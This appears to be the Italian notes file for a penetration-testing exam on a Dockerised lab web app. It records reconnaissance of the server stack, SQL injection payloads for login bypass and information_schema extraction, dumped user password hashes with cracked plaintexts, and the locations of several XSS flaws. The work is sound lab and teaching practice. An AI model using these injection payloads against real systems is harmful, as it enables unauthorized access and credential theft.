 # ProgettoPT
Progetto Penetration Testing

*docker pull gabrielec/ptexam*

*docker run gabrielec/ptexam*

Payloads [(https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)]

Information Gathering


- Debian (url random da pagina di errore Apache)

- Apache server 2.4.38 (url random da pagina di errore Apache)

- PHP 7.2.34 (Response Header e debug.php)

- MariaDB (carattere ' in username nella pagina login)

- Tabella con gli Utenti (Case insensitive):

  - Colonna Username (Campo Username nel Login: ' OR Username #)

  - Colonna Password (Campo Username nel Login: ' OR Password #)

  - Colonna Id (Campo Username nel Login: ' OR Id #)

- Query per Login:
  
  - seleziona due parametri (' OR 1 LIKE 1 UNION SELECT 1, 1 #)

  - Carattere = non permesso

  - sostituisce gli spazi con dei +

  - hash MD5 di password (Username: frog'; password: frog)

- Pagine (non banali) presenti: (metasploit: auxiliary/scanner/http/files_dir)

  - config.php
  
  - Vuota
  
  - debug.php
  
    - Server Administrator: webmaster@localhost

    - Server Root: /etc/apache2

    - DOCUMENT_ROOT: /var/www/html

    - SMTP

  - logout.php

- Utenti: (enum_users())

  - {'sysadmin', 'utente', 'agentx', 'tizio.incognito', 'jackofspade'}

- Il contenuto di un report non viene visualizzato nella pagina /report.php

Vulnerabilities

- SQL Injection (/login.php)
  
  - Bypass Login:

    - ' OR Username LIKE (SELECT Username) LIMIT 1; #

    - ' OR Username LIKE 'agentX' LIMIT 1; #

  - Password (hashed MD5):  (get_password())

    - agentx: b20e0aaa66fdd9a7a5b2ebf49d32b91b 

    - sysadmin: fcea920f7412b5da7be0cf42b8c93759 (Plain: 1234567)

    - utente: bed128365216c019988915ed3add75fb (Plain: passw0rd)

    - tizio.incognito: 5ebe2294ecd0e0f08eab7690d2a6ee69 (Plain: secret)

    - jackofspade: 617882784af86bff022c4b57a62c807b

  - Id:  (get_id())

    - agentx: 10 

    - sysadmin: 1337

    - utente: 42

    - tizio.incognito: 7

    - jackofspade: 8

(Informazioni sugli utenti confermate dall'injection sui reports)

- SQL Injection (/send.php) 
  
  - Tabella con i report con 2 campi (Campo title: test2', 'abc2'); # )

  - User MySQL connesso a PHP: admin@localhost (Campo title: 123', (SELECT user())); # )

  - System User: admin@localhost

  - Nome Database: niadb

  - Versione MariaDB: 10.3.39-MariaDB-0+deb10u2 ()

  - Tabelle DB: (inject_sql('(SELECT table_name FROM information_schema.tables WHERE table_schema LIKE 'niadb' LIMIT 0, 1)))

    - reports(repid: smallint, agent: varchar, title: varchar, message: varchar) (inject_sql("(SELECT CONCAT(column_name, data_type) FROM information_schema.columns WHERE table_schema LIKE 'niadb' AND table_name LIKE 'reports' LIMIT 0, 1)"))

    - agents(id:smallint, username: varchar, password: varchar) (inject_sql("(SELECT CONCAT(column_name, data_type) FROM information_schema.columns WHERE table_schema LIKE 'niadb' AND table_name LIKE 'agents' LIMIT 0, 1)"))

- Reflected XSS (/welcome.php)

- Reflected XSS (/recovery.php)

- Stored XSS (/report.php)